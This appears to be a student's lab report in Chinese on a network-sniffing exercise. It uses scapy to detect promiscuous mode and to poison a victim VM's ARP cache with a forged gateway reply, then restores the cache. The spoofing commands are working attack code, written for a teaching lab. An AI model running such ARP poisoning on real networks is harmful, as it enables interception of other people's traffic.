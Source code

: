 # 实验四 网络监听
## 网络拓扑
 - 攻击者主机
    - 08:00:27:23:92:50/eth0
    - 176.16.222.108
 - 受害者主机
    - 08:00:27:0e:34:8d/eth0
    - 176.16.222.111
 - 网关
    - 08:00:27:3a:9d:91/enp0s10
    - 176.16.222.1
## 实验过程
### 实验前准备
- 在攻击者主机上提前安装好 scapy 
```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![img](img/scapy.png)
### 实验一: 检测局域网中的异常终端
- 检测受害者主机上的 混杂模式 是否启动.
```
ip link show eth0
```
![img](img/eth0.png)
-  在攻击者主机上开启`scapy`并在 `scapy`的交互式终端输入以下代码回车执行
```
sudo scapy
pkt = promiscping("172.16.222.111")
```

![img](img/pkt.png)
- 回到受害者主机回到受害者主机上开启网卡的『混杂模式』,注意上述输出结果里应该没有出现 `PROMISC` 字符串,手动开启该网卡的「混杂模式」.
```
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```
![img](img/promisc.png)
- 回到攻击者主机上的 scapy 交互式终端继续执行命令,观察两次命令的输出结果差异
```
sudo scapy
pkt = promiscping("172.16.222.111")
```
![img](img/pkt_ans.png)
### 实验二:手工单步毒化目标主机的arp缓存
```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求

arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="176.16.222.1")


# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
```
![img](img/arp_show.png)
```
# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 176.16.222.111
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="176.16.222.1", pdst="176.16.222.111", hwdst="08:00:27:23:92:50")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
![img](img/sendArp.png)
- 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
```
ip neigh
```
![img](img/arpSend.png)
- 不知道为什么一直毒化失败
- 回到攻击者主机上的 scapy 交互式终端继续执行命令。
```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="176.16.222.1", hwsrc="08:00:27:3a:9d:91", pdst="176.16.222.111", hwdst="08:00:27:0e:34:8d")
sendp(restorepkt1, count=100, inter=0.2)
```
伪装网关给受害者发送ARP响应
![img](img/restorepkt1.png)
- 此时在受害者主机上准备“刷新”网关 ARP 记录。
```
## 在受害者主机上尝试 ping 网关
ping 176.16.222.1 
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![img](img/neigh.png)
## 参考资料
[实验四课件](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html)